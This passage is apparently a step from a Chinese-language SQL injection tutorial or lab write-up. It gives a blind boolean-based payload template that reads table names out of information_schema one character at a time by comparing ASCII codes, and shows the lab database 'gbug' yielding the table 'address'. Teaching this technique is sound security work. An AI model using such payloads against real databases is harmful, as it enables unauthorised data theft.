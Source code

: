 ![image-20250222005857749](static/image/image-20250222005857749.png)

#### 判断表名

```mysql
AND ((SELECT ASCII(SUBSTR(table_name,第x位,1)) FROM information_schema.tables WHERE table_schema='数据库名' limit 第x个表,1)=ascii码)
```

```
ascii码 97 对应的字符是 a，数据库 gbug的第一个表完整的表名是 address，第一位是 a
```
